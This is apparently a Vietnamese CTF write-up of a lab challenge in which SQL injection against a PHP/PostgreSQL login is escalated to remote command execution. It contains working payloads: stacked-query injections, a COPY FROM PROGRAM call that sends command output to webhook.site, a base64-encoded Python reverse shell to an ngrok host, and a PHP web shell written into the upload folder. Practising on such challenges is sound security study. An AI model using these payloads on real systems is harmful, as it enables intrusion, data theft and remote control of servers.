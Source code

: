 ```yaml
---
title: "[WRITEUP] Baby SQL Injection to RCE - COOKIE ARENA"
categories:
- CTF Writeup
- Cookie Arena
tags:
- SQLi
date: '2024-07-10 14:30:00'
---
```


## Intro
Link Challenge: [here](https://battle.cookiearena.org/challenges/web/baby-sql-injection-to-rce){:target="\_blank"}

Mô tả: 
```
This is because traditional SQL injection techniques. Could you execute command?

The challenge is running in PostgreSQL and PHP.

Flag File: /flagXXXX.txt
Flag Format: CHH{XXX}
```
## Exploit
Mới đầu vào xuất hiện 1 trang login:

![Login Page](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/1.png)

Source code:
```php
<?php
  include_once('./ignore/design/design.php');
  $design = Design(__FILE__, 'Basic Web');

  include('config.php');
  $message = "";
  
  if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $username = trim($_POST['username']);
      $password = trim($_POST['password']);
  
      // Truy vấn kiểm tra tên người dùng và mật khẩu
      $sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
      $result = pg_query($conn, $sql) or die(pg_last_error());

      if (pg_num_rows($result) > 0) {
        $message = "Welcome, $username!";
      } else {
        $message = "Invalid username or password!";
      }
  }
?>
<html>
  <head>
    <title>Basic Login</title>
  </head>
  <body>
    <?php if(strlen($message) > 0) { echo $message; } else { ?>
    <div>
        <h2>Login</h2>
        <form action="/index.php" method="post">
          
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" class="form-control" id="username" name="username">
            </div>
            <div class="form-group">
                <label for="pwd">Password:</label>
                <input type="password" class="form-control" id="pwd" name="password">
            </div>
            <button type="submit" class="btn btn-primary">Login</button>
        </form>
    </div>
    <?php } ?>

    <div>
      <?php echo $design; ?>  
    </div>    
  </body>
</html>
```

Trước hết, đọc source code ta thấy được câu truy vấn `$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";`, ngỡ là ta được trở lại những năm 2000 :)). Trigger sqli và nảy sang 1 trang welcome.

![Welcome](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/2.png)

Như cái tiêu đề và mô tả, chúng ta phải khai thác SQL injection to RCE vì flag nằm trong file hệ thống chứ không nằm trong db. 2 ý tưởng nảy trong đầu của tui:
1. Liệu có câu lệnh sql của PostgreSQL nào giúp ta thực thi os command hay không?
2. Liệu có thư mục nào mà ta có quyền ghi file? Từ đó up webshell bằng SQL?

Nhưng, trong câu truy vấn gốc với mệnh đề select thì ta không làm được gì nhiều. Vậy liệu còn cách nào khác giúp ta có thể chạy nguyên vẹn 1 sql command để có thể làm được nhiều thứ hơn? Có một khái niệm cho phép ta làm điều này [Stack Queries](https://cookiearena.org/penetration-testing/stacked-query-trong-sql-injection/){:target="\_blank"}.

![Stack Queries](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/3.png)

Vậy là confirm rằng psql có support Stacked Queries.

### Giả thiết 1: Execute OS command via SQL
Sau một hồi research docs của postgresql, tui tìm được [cái này](https://www.postgresql.org/docs/current/sql-copy.html#:~:text=the%20path%20name.-,PROGRAM,string%2C%20or%20at%20least%20avoid%20including%20any%20user%20input%20in%20it.,-STDIN){:target="\_blank"}.
 
 `COPY FROM PROGRAM` giúp ta thực hiện giả thiết 1 mà tui đưa ra. 

- Bắt đầu với việc tạo 1 table.
```text
';CREATE TABLE shell(output text);-- -
```

![Create Table](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/4.png)

- Sử dụng PROGRAM để thiết lập command. Test payload:
```text
'; COPY shell FROM PROGRAM 'curl https://webhook.site/de60c29f-ebc7-4f64-8851-09f08950387e/res=`id`';-- -
```

![Test exec command](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/5.png)

Sure là payload của ta hoạt động. RCE thoaii

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/6.png)

Giải thích một chút payload:
- Đầu tiên, biết server đang chạy python3, nên tui dùng payload reverse shell này:
```
export RHOST="0.tcp.ap.ngrok.io";export RPORT=19890;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

- Tiếp đến, để vận chuyển payload 1 cách mượt mà, tui base64 lại và dùng pipeline để xử lý payload. Full payload nè:
```
'; COPY shell FROM PROGRAM 'echo "ZXhwb3J0IFJIT1NUPSIwLnRjcC5hcC5uZ3Jvay5pbyI7ZXhwb3J0IFJQT1JUPTE5ODkwO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn" | base64 -d | /bin/bash';-- -
```

### Giả thiết 2: Upload shell via SQL

- Thứ nhất, điều kiện tiên quyết là upload ở đâu đó trong document-root để có thể thực thi file php? 
- Và thư mục đó có quyền ghi cho user postgres hay không?

Thực hiện dirsearch endpoint của website thì phát hiện ra 1 số thứ hay ho:

![dirsearch](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/7.png)

Trang phpinfo cho ta biết được một số thông tin quan trọng như document_root. 

![phpinfo](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/8.png)

Thư mục upload

![upload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/9.png)


Thư mục upload/ và document_root là 2 clues chính cho giả thiết 2 này. 

Việc còn lại là craft 1 payload để ghi file, cụ thể hơn là file php (để chứng minh thư mục đó có thực thi file php hay không).

```
'; CREATE TEMPORARY TABLE temp_results(a VARCHAR(255)); INSERT INTO temp_results (a) VALUES ('<?php phpinfo(); ?>'); COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);-- -
```

![test payload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/10.png)

Giải thích payload:
- Tạo 1 bảng tạm có 1 column để insert payload.
- `COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);` câu lệnh giúp xuất toàn bộ content của table `temp_results` vào 1 file trong hệ thống với absolute path (nếu cố tình chèn relative path sẽ gây ra lỗi), điều này chứng minh rằng document_root là thông tin cần thiết.

Thay payload phpinfo() bằng `<?php system($_GET[cmd]); ?>');` => RCE

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/11.png)